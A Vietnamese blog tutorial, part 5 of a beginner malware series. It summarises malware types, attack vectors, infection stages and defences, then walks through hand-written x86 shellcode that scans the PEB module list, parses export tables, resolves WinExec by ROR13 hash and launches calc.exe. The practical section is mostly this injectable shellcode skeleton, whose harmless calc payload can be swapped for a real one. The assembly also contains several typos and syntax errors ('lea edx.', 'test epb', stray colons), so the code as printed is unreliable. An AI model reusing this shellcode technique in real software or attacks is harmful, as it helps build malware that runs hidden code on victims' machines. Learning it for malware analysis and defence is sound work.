



# Malware for Beginners — Phần 5: Malware and Minilab 

**Malware for Beginners:** [Phần 1 — Bộ nhớ](learning-Malware-for-beginner-part-1.html) · [Phần 2 — PE](learning-Malware-for-beginner-part-2.html) · [Phần 3 — Loader](learning-Malware-for-beginner-part-3.html) · [Phần 4 — Shellcode](learning-Malware-for-beginner-part-4.html) . Phần 5 

> Nhan_laptop


> Tiếp tục với section tiếp theo 


ok thì ở 4 phần trước mình đã giới thiệu xung quanh một  tệp tin thực thi sẽ trong như nào, một vòng đời của nó,
hiểu được như thế thì ta mới có thể thực hiệu step by step inject một shellcode - malware vào chương trình được.

Và ở blog này mình chỉ giới thiệu qua một tí malware thui, vì mình sẽ step by step thực hiện ns.


## Malware

Malicious software - phần mềm đọc hại hay malware là mọi đoạn mã phần mềm hoặc chương trình máy tính, 
bao gồm ransomware - mã độc tống tiền, Trojan HOrse hay phần mềm gián điệp, cố ý ghi vào máy nạn nhân 
để thực hiện các hành động mang tính gây hại. 

### Các dạng malware thường gặp


| Loại Malware              | Hiểu đơn giản                                                           | Mục đích chính                    |
| ------------------------- | ----------------------------------------------------------------------- | --------------------------------- |
| **Virus**                 | Chèn mã độc vào chương trình/file khác và thường cần người dùng chạy nó | Phá hoại, lây lan                 |
| **Ransomware**            | Khóa/mã hóa dữ liệu rồi đòi tiền chuộc                                  | Tống tiền                         |
| **Remote Access Malware** | Tạo **backdoor** để kẻ tấn công truy cập máy từ xa                      | Chiếm quyền, đánh cắp dữ liệu     |
| **Botnet**                | Nhiều máy bị nhiễm malware và bị hacker điều khiển                      | DDoS, tấn công hàng loạt          |
| **Cryptojacker**          | Lén dùng CPU/GPU của máy để đào cryptocurrency                          | Kiếm tiền                         |
| **Fileless Malware**      | Chạy mã độc trong **memory** thay vì lưu file rõ ràng trên ổ đĩa        | Né phát hiện                      |
| **Trojan**                | Giả dạng phần mềm/file hợp pháp để lừa người dùng chạy                  | Cài malware, mở đường tấn công    |
| **Spyware**               | Âm thầm theo dõi và thu thập thông tin                                  | Đánh cắp dữ liệu                  |
| **Adware**                | Hiển thị quảng cáo không mong muốn; đôi khi thu thập dữ liệu            | Quảng cáo/thu thập thông tin      |
| **Worm**                  | Tự nhân bản và lan sang máy khác mà không cần người dùng thao tác       | Lây lan nhanh                     |
| **Rootkit**               | Ẩn mình và giúp attacker có quyền cao trên hệ thống                     | Che giấu + duy trì quyền truy cập |


### Một số attack vector điển hình 
| Attack vector                      | Hiểu đơn giản                                                                               | Ví dụ                                |
| ---------------------------------- | ------------------------------------------------------------------------------------------- | ------------------------------------ |
| **Social engineering**             | Lừa **con người** tự làm điều nguy hiểm                                                     | Phishing email → mở file/link độc    |
| **System vulnerabilities**         | Khai thác **lỗ hổng chưa được vá**                                                          | Lỗ hổng trong OS, phần mềm, thiết bị |
| **Removable media**                | Malware đi qua **thiết bị lưu trữ rời**                                                     | USB nhiễm malware                    |
| **Fake software / file downloads** | Giả phần mềm/file hữu ích để người dùng tải                                                 | App giả, phần mềm giả                |
| **Malvertising**                   | Dùng **quảng cáo độc hại** để phân phối malware                                             | Quảng cáo giả dẫn tới file độc       |
| **Drive-by download**              | Chỉ cần **truy cập website độc**, malware có thể được tải xuống mà không cần thao tác nhiều | Website bị compromise                |
| **User devices**                   | Thiết bị cá nhân đã nhiễm malware trở thành đường vào mạng công ty                          | Laptop/phone → mạng doanh nghiệp     |
| **Supply chain attack**            | Tấn công **nhà cung cấp/vendor**, rồi malware đi tới khách hàng                             | Software update bị compromise        |

## Cách một malware hoạt động 



| Giai đoạn                  | Hiểu đơn giản                                                  |
| -------------------------- | -------------------------------------------------------------- |
| **Delivery**               | Malware tìm cách **đi vào máy**                                |
| **Execution**              | Malware được **chạy**                                          |
| **Persistence**            | Tìm cách **bám trụ** sau khi máy khởi động lại                 |
| **Privilege escalation**   | Cố gắng lấy **quyền cao hơn**                                  |
| **Command & Control (C2)** | Kết nối với máy chủ của attacker để **nhận lệnh**              |
| **Action**                 | Thực hiện mục tiêu: đánh cắp dữ liệu, phá hoại, mã hóa file... |

## Biện pháp phòng và tránh



| Biện pháp                | Làm gì?                                  |
| ------------------------ | ---------------------------------------- |
| **Update/Patch**         | Vá lỗ hổng OS và phần mềm                |
| **Antivirus/EDR**        | Phát hiện và chặn malware                |
| **Firewall**             | Kiểm soát network traffic                |
| **Backup**               | Có bản sao dữ liệu khi bị ransomware     |
| **Email security**       | Lọc phishing/file độc                    |
| **Least privilege**      | Không cho user quyền admin nếu không cần |
| **User awareness**       | Không mở link/file đáng ngờ              |
| **Network segmentation** | Hạn chế malware lan sang hệ thống khác   |

Tiêp theo bên dưới đây, mình sẽ mô phòng lại một quá trình thực hiện inject một shellcode và dùng nó để gọi một ứng
dụng khác. 


## Thực hành: 


những gì mình có trong tay: 
```
└─$ tree
.
├── NOTEPAD.EXE
└── calc.exe
```

### Chuẩn bị 

Ta cần viết một sripts để có thể tìm đến tìm đến `WinExec`. 
Như cũ ta sẽ chuẩn bị theo từng bước đã được biết ở trên. 

1. Cất 8 thanh ghi. 

```
_start: 
  pushad

```

2. `Đọc fs:[0x30]`-> PEB -> +0x0C ldr -> +0x0C danh sách module (danh sách móc vòng).
- Vòng lặp qua từng module -> mỗi entry đọc +0x18 ra DLLBase.

```
  mov eax, [fs:0x30]; eax = PEB
  mov eax, [eax + 0x0C]; eax = peb -> ldr 
  lea edx. [eax + 0x0C]; edx = &InLoadOrderModuleList (head)
  push edx ; [esp] = head
  mov edi, [edx]; edi = entry đầu tiên  

.next_module: 
  cmp edi, [esp] ; quay ve head -> het danh sach 
  je .fail ; neu lap het 1 vong ma khong tim thay, that bai 
  mov ebp, [edi+0x18]; ebp = dllbase  dia chi nap cua dll
  test epb, epb ; kiem tra coi dll co null khong
  jz .advance ; nhay sang module moi neu null 

  ; ---- kiem tra co phai PE hop le khong --- 
  mov eax, [ebp+0x3C] ; e_lfanew - offset toi pe headers 
  cmp eax, 0x1000 ; kiem tra offset co bat thuong, qua lon khong
  ja .advance 
  add eax, ebp; eax = &pe header 
  cmp dword [eax], PE_SIG ; kiem tra signature co phai PE\0\0 khong
  jne .advance ; khong phai thi bo qua 

  ; -- lay khoang [export_va, export_end] de nhan din forwarder---
  mov edx, [eax+0x78]; DataDirectory[0].VirtualAddress
  test edx, edx 
  jz .advance ; khong co bang export
  mov ecx, [eax+0x7C];DataDirectory[0].Size
  add ecx, edx 
  add ecx, ebp; ecx = export_end 
  add edx, ebp; edx = export_va 
  cmp dword [edx +0x18], 0 ; numberOfnames 
  je .advance 

```

### Cất các con trỏ bảng export sau khi lọc được vào stack (không dùng thanh ghi) 

```

  ; -------------------------------------------------------------------
  ; (2) Cat cac con tro bang export vao stack (khong du thanh ghi)
  ;
  ;     [esp+0]  module entry     [esp+12] export_va
  ;     [esp+4]  NameOrdinals     [esp+16] export_end
  ;     [esp+8]  Functions        [esp+20] head
  ; -------------------------------------------------------------------

  push ecx ; export_end 
  push edx ; export_va
  mov eax, [edx +0x1C]; AddressofFunctions RVA 
  add eax, ebp; dllbase + addressofFunctions Rva = address cua AddressofFunciton tren dll
  push eax 
  mov eax, [edx + 0x24] ; AddressofNameordinals RVA 
  add eax, ebp  ; tuong tu 
  push eax 
  push edi ; module entry (edo se bi dung lai)

  mov edi, [edx + 0x20]: AddressOfNames RVA 
  add edi, ebp; edi = &AdressofNames[]
  mov ecx, [edx + 0x18]; ecx = numberofNames. 

```

###  Duyet tung ten ham, tinh hash ror13, so sanh

```
  ; -------------------------------------------------------------------
  ; (3) Duyet tung ten ham, tinh hash ror13, so sanh
  ; -------------------------------------------------------------------
.name_loop: 
  dec ecx 
  js .scan_done             ; ecx < 0 -> Đã duyệt hết tên trong DLL này
  mov esi, [edi + ecx*4]    ; rva của tên hàm thứ ecx
  add esi, ebp              ; esi = Địa chỉ chuỗi tên hàm trong RAM
  xor ebx, ebx              ; ebx = Hash accumulator = 0
  push ecx 
  cld 

.hash_loop: 
  xor eax, eax 
  lodsb                     ; AL = *esi++
  test al, al 
  jz .hash_done             ; Gặp byte NULL -> Kết thúc chuỗi
  ror ebx, 13               ; Xoay phải 13 bit
  add ebx, eax              ; Cộng ký tự hiện tại vào hash
  jmp .hash_loop

.hash_done: 
  pop ecx 
  cmp ebx, HASH_WINEXEC     ; So sánh hash vừa tính với giá trị khớp WinExec (0x0E8AFE98)
  jne .name_loop

```

### Tim thay ten -> doi qua dia chi ham

```
  mov edx, [esp+4]; &addressofnameordinams[]
  movzx eax, word [edx + ecx*2]; ordinal 
  mov edx, [esp+8]; &addressoffunctions[]
  mov eax , [edx+eax*4]; rva cua ham 

  ;--- loai bo forwarder: rva nam trong chinh bang export---
  mov edx, [esp+12]; export va
  cmp eax, edx ;
  jb .got_it;  nho hon > ma thuc thi hat
  cmp eax, [esp +16]; export end 
  jb .scan_done; nam trong forwarder, bo qua. 

.got_it: 
  add esp, 20 ; bo 5 dword bang export
  pop edx; bo head
  ; eax = &winexex

```

### goi WinExec('calc.exe"sw_show)
```
call .get_cmd 

.cmd: 
  db "calc.exe", 0 

.get_cmd: 
  pop ebx ; exb = &"calc.exe" lay bang call/pop
  push 1; ucmdshow= SW_SHOWORMAL
  push ebx; lpcmdline
  call eax; winEXEC

.done;
  popad; khoi phuc moi thanh ghi
  ret; tra ve noi goi

```

### khong tim thay lu ve khogn lam gi, khog crash 

```
.scan_done: 
  pop edi ; khoi phuc module entry 
  add esp, 16; bo 4 dword con lai 
.advance: 
  mov edi, [edi]: entry ke tiep 
  jmp . next_module
.fail: 
  pop edx; bo head
  jmp .done
```


## references
- https://www.ibm.com/think/topics/malware

